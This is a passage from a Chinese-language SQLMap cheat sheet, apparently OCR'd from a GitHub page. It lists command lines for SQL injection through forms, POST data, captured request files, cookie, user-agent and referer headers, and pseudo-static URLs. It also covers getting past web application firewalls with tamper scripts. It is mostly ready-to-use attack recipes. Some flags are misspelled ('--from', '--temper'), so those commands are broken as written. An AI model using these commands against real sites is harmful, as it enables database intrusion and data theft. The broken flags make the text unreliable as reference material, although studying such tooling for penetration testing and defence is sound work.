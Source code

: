 7. 查记录

   获取到sql-shell后,在shell中执行select语句即可查询

   注意:sql-shell只能执行select语句

### SQLMap表单注入

```python
python sqlmap.py -u "注入点" --from --batch  即可自动注入
```

### SQLMap对url进行POST注入

```python
python sqlmap.py -u "注入点" --data "变量名1=值1&变量名2=值2..."    #变量名即表单中输入框的name属性值    多个变量使用&符号分隔
```

### SQLMap  http请求包注入

```python
sqlmap.py -r request.txt
```



### SQLMap头部注入

#### cookie注入

```
python sqlmap.py -u "注入点" --level 2 --cookie "xx=xx"
```

#### user-agent、referer注入

```python
python sqlmap.py -u "注入点" --level 3 --user-agent
python sqlmap.py -u "注入点" --level 2 --referer
```



### SQLMap伪静态注入

url后面加*(星号)

```python
-u "http://host/index/*"
```

### SQLMap绕过WAF

#### --temper选项绕过

```python
--temper space2morehash.py
sqlmap目录中temper文件夹下有很多脚本,通过--temper 文件名.py调用,也可以自己编写temper脚本
```
